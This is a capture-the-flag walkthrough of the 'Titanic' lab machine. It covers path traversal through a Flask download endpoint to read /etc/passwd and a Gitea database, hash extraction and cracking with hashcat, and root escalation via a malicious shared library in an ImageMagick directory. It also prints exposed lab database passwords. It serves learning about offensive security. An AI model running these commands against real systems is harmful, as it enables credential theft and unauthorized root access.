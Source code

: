  Titanic (Linux)

First thing first, I ran `nmap -sVC` on the targets IP address.

## Nmap
22 SSH
80 TCP
Are both open. 

I opened up the IP address on a web browser but nothing loads. Porbaly need to add into our /etc file
Once we Added into our `/etc/hosts`; I gave it some time and right afterwards I had access to the website on my local machine. 

## titanic.htb
**Book Your Trip** button downloads a json file unto your machine, when filled out appropriately.
The buttons on the header dont work other than **Book Now** which does the same as **Book Your Trip**

## Fuzzing
200 on subdomain **dev**
Added to my `/etc/hosts` and visited the webpage.
Running on Gitea Version: 1.22.1; checked for any vuln but as of now based of what I saw on Github, the most recent one has been patched. 

I went into the **Explore** button and found the repository for this application. 
One of the repo had **docker-config** that also had **mysql** folder that had a **docker-compose.yml** file:

```
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always

```

gitea folder also had a **docker-compose.yml**

```
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

Notice and rememeber the paths we have come across.

While looking at the other repository I came across **app.py** and checked for any vuln.

```
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

```
1. Ticket comes directly from user input (request.args.get('ticket')).
2. There is no validation to ensure the filename is within TICKETS_DIR.

## Curl
`curl http://titanic.htb/download?ticket=../../../../etc/passwd`
This contained a list of users on the system

`developer:x:1000:1000:developer:/home/developer:/bin/bash`
This is likely a human user with a real home directory.

Why not try and do the same with curl again.. Since we know the file we are looking for (**user.txt**), we can insert that into our `curl` command.
`curl http://titanic.htb/download?ticket=../../../../home/developer/user.txt`

**User Flag Pwned**

## Stil on curl
Since I have been using curl thus far I thought to continue on using it. 
`curl -o gitea.db "http://titanic.htb/downloadticket=../../../../home/developer/gitea/data/gitea/gitea.db"`
Using the `-o` flag tells `curl` to save the downloaded content to a file (**gitea.db**). 
And I am still using path traversal. 

## SQLite3 
Analyzed and used to extract password hashes. 
```

sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

```

## Hashcat 
`hashcat -m 10900 gitea.hashes /usr/share/wordlists/rockyou.txt --username`
After finding the password I used ssh to get into the machine. See theuser flag that I already got but also files that we also already saw before.

## SSH (privilege escalation)
Located `/opt/` directory which we used to explore. 
`/scripts/` then used `cat` to explore the contents of the file that was inside.

Checked for `magick -version` that was used to exploit; simple Google search. 
Looked at the poc and used this,

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF

```
Ran this code in the `/opt/app/static/assets/images/`
this directory is writable and accessible, making it a suitable location to upload or execute arbitrary code.

After 3-5 seconds I `ls` and saw `root.txt`.

PWNED!
